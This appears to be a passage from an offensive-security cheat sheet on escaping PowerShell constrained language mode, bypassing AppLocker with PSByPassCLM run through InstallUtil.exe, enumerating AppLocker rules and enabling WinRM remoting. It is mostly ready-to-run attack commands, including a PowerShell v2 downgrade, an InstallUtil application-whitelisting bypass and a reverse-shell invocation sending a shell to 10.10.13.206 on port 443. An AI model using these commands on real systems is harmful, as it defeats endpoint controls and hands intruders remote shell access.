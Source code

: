 More can be found [here](https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/)

## Constrained language

```bash
$ExecutionContext.SessionState.LanguageMode
#Values could be: FullLanguage or ConstrainedLanguage
```

### Bypass

```bash
#Easy bypass
Powershell -version 2
```

In current Windows that Bypass won't work but you can use[ **PSByPassCLM**](https://github.com/padovah4ck/PSByPassCLM). **To compile it you may need** **to** _**Add a Reference**_ -&gt; _Browse_ -&gt;_Browse_ -&gt; add _C:\Windows\Microsoft.NET\assembly\GAC\_MSIL\System.Management.Automation\v4.0\_3.0.0.0\_\_31bf3856ad364e35\System.Management.Automation.dll\_ and **change the project to .Net4.5**.

#### Direct bypass:

```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U c:\temp\psby.exe
```

#### Reverse shell:

```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.13.206 /rport=443 /U c:\temp\psby.exe
```

## AppLockerPolicy

Check which files/extensions are blacklisted/whitelisted.

```text
Get-ApplockerPolicy -Effective -xml
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
$a = Get-ApplockerPolicy -effective
$a.rulecollections
```

## Enable WinRM \(Remote PS\)

```bash
enable-psremoting -force #This enables winrm

## Change NetWorkConnection Category to Private
#Requires -RunasAdministrator

Get-NetConnectionProfile |
  Where{ $_.NetWorkCategory -ne 'Private'} |
  ForEach {
    $_
    $_|Set-NetConnectionProfile -NetWorkCategory Private -Confirm
  }
```
